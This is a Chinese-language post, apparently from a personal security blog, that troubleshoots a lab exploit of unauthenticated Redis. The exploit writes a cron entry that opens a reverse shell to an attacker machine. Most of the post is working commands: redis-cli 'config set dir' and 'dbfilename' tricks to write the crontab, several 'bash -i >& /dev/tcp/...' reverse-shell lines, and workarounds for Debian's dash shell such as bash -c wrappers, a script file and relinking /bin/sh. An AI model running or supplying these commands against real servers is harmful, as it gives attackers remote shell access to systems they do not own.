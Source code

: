 # redis未授权反弹shell失败解决

受害机器：kali；攻击主机：mac；

注意，这里写的是**利用定时任务反弹shell**会出现的问题。

最开始在网上找的poc

```shell
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
OK
# /var/spool/cron/crontabs
192.168.63.130:6379> config set dir /var/spool/cron/
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

很随意的一个poc，会遇到各种各样的问题。

执行完之后，使用`crontab -l`发现并没有定时任务执行，这是因为reids写入的定时文件格式有误，据说ubuntu、Debian都有这个问题，centos可以成功复现。不过今天的重点并不在此。

重点是**用crontab反弹shell**。

直接在受害机上使用`crontab -e`写入定时任务，根据最开始网上的那篇博客，应该这么写

```sh
# 写入定时任务
* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n
# 查看定时任务是否执行
crontab -l
```

然后发现执行了，但是shell没有反弹到mac上；

怎么办？

```sh
# 首先查看系统日志
$ tail -f /var/log/syslog
# 结果如下；表示crontab执行出错
CRON[55318]: (CRON) info (No MTA installed, discarding output)

# 写入如下任务---查看crontab的错误日志
* * * * * '/bin/bash -i >& /dev/tcp/192.168.63.128/7999 0>&1'>/tmp/error.txt 2>&1
# 结果如下
$ cat /tmp/error.txt
 bash: cannot set terminal process group (6868): Inappropriate ioctl for device
 bash: no job control in this shell
 bash: >& /dev/tcp/192.168.63.128/7999 0>&1: No such file or directory
```

### 执行bash命令

/bin/bash没有被找到；crontab使用的shell环境是/bin/sh；

Debian下，`sh->dash`，也就是说，要用dash去把反弹bash，这是出错的根本原因。

```shell
# bash -i >& /dev/tcp/192.168.63.130/7777 0>&1           
dash: 2: Syntax error: Bad fd number
# ^C
# /bin/bash -i >& /dev/tcp/192.168.63.130/7777 0>&1
dash: 3: Syntax error: Bad fd number
# /bin/bash -c >& /dev/tcp/192.168.63.130
```

> 但是dash为什么不能反弹bash？

所以，其实可以使用`bash -c`执行命令，而这个命令是反弹交互式bash shell；

```shell
bash -c "bash -i >& /dev/tcp/192.168.63.130/7777 0>&1"
```

也就是，定时任务反弹shell可以写成这样

```shell
* * * * * *  bash -c "bash -i  >&/dev/tcp/192.168.63.130/7777 0>&1"
```
所以过程应该是
```shell
root@kali:~# redis-cli -h 192.168.63.130
192.168.63.130:6379> set x "\n* * * * * *  bash -c 'bash -i  >&/dev/tcp/192.168.63.130/7777 0>&1'\n"
OK
# centos: /var/spool/cron/
192.168.63.130:6379> config set dir /var/spool/cron/crontabs
OK
192.168.63.130:6379> config set dbfilename root
OK
192.168.63.130:6379> save
OK
```

### 使用脚本文件

```shell
# 编辑shell脚本
$ vim /temp/test.sh
# 文件内容如下
# !/bin/bash
/bin/bash -i >& /dev/tcp/192.168.63.130/7777 0>&1

# 加上执行权限
$ chmod +x /tmp/test.sh

# 修改计划任务
* * * * * * /tmp/test.sh
```

### 修改sh指向

让sh指向bash

```shell
ln -s -f bash /bin/sh
```



### 参考博客
- [很有用的博客](https://m3lon.github.io/2019/03/18/%E8%A7%A3%E5%86%B3ubuntu-crontab%E5%8F%8D%E5%BC%B9shell%E5%A4%B1%E8%B4%A5%E7%9A%84%E9%97%AE%E9%A2%98/)
- [某云玩家博客](https://p0sec.net/index.php/archives/69/)
